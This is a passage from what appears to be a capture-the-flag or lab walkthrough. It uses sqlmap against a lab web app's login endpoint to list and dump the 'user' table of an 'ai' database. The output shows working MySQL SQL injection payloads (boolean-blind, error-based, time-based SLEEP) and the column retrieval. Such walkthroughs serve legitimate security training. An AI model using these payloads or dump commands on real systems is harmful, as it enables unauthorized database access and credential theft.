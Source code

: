```shell
[1 table]
+------+
| user |
+------+

[18:46:03] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.32.196'
[18:46:03] [WARNING] you haven't updated sqlmap for more than 2022 days!!!

[*] ending @ 18:46:03 /2025-10-16/

root@ip-10-10-129-125:~#
```

**Question 2** What is the name of the table available in the "ai" database?

**Answer:** `user`

```shell
root@ip-10-10-129-125:~# sqlmap -u 'http://10.10.32.196/ai/includes/user_login?email=test&password=test' -D ai -T user --dump --level=5
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:49:02 /2025-10-16/

[18:49:02] [INFO] resuming back-end DBMS 'mysql' 
[18:49:02] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=test' AND 4324=(SELECT (CASE WHEN (4324=4324) THEN 4324 ELSE (SELECT 7054 UNION SELECT 8357) END))-- UyNy&password=test

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=test' OR (SELECT 8539 FROM(SELECT COUNT(*),CONCAT(0x716b717171,(SELECT (ELT(8539=8539,1))),0x717a707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JTnW&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test' AND (SELECT 7937 FROM (SELECT(SLEEP(5)))Judt)-- YLPd&password=test
---
[18:49:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:49:02] [INFO] fetching columns for table 'user' in database 'ai'
[18:49:02] [INFO] retrieved: 'id'
[18:49:03] [INFO] retrieved: 'int(11)'
[18:49:03] [INFO] retrieved: 'email'
[18:49:03] [INFO] retrieved: 'varchar(512)'
[18:49:03] [INFO] retrieved: 'password'
[18:49:03] [INFO] retrieved: 'varchar(512)'
[18:49:03] [INFO] retrieved: 'created'
[18:49:03] [INFO] retrieved: 'timestamp'
```